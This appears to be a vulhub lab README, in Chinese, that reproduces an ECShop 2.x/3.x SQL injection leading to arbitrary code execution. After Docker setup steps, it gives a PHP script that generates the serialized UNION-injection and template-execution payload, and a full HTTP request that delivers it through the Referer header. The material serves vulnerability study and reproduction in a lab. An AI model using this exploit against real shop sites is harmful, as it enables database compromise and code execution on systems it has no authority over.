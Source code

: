 # ECShop 2.x/3.x SQL注入/任意代码执行漏洞

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。如图：

![](0.png)

## 漏洞复现

我编写了一个脚本，可以生成2.x和3.x的POC：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

2.x的执行结果

![](1.png)

3.x的执行结果：

![](2.png)
